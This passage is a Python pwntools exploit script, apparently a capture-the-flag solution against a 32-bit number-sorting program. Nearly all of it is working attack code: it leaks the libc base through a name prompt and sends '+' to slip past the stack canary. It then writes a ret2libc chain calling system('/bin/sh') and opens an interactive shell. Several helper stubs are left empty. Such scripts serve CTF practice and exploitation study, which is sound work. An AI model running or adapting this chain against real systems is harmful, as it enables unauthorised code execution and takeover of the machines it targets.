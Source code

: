 ```python
        if "libc.so.6" in key:
            return text_base,a.libs()[key]
def debug():
    text_base,libc_base=get_base(a)
    script="set $text_base="+str(text_base)+'\n'+"set $libc_base="+str(libc_base)+'\n'
    script+='''
    b *$rebase(0x00000B17)
    '''
    gdb.attach(a,script)
def fuck(address):
    n = globals()
    for key,value in n.items():
        if value == address:
            return success(key+"  ==>  "+hex(address))
def menu(idx):
    a.sendlineafter("",str(idx))
def add(size):
    return 

def delete(idx):
    return 
    
def edit(idx,content):
    return 
    
def show(idx):
    return 
relloc_offset = [0,2,4,6,0xb,0xc,0x10]

#debug()
#payload='\x00'*0x33+p64(0x00000000fbad1800)+p64(0)*3+'\x00'    #stdout-0x33
a.sendafter("What your name :","a"*0x1c)
a.recvuntil("aaaaaaaaaaaaaaaaaaaaaaaaaaaa")
libc_base = u32(a.recv(4)) - 0x1244 -0x1b0000
fuck(libc_base)
canary_off = 23
ebp_off = 31
ROP_chain = p32(0x3ac6c + libc_base)
binsh = libc.search('/bin/sh').next() + libc_base 
a.sendlineafter("How many numbers do you what to sort :",str(38))
for i in range(24):
    a.recvuntil("Enter the "+str(i)+ " number : ")
    a.sendline(str(0))
a.recvuntil("Enter the "+str(24)+ " number : ")
a.sendline('+')
for i in range(10):
    a.recvuntil("Enter the "+str(25+i)+ " number : ")
    a.sendline(str(0x00000417 + libc_base)) 
a.recvuntil("Enter the "+str(35)+ " number : ")
a.sendline(str(libc.sym["system"] + libc_base)) 
for i in range(2):   
    a.recvuntil("Enter the "+str(36+i)+ " number : ")
    a.sendline(str(binsh))

a.interactive()
```
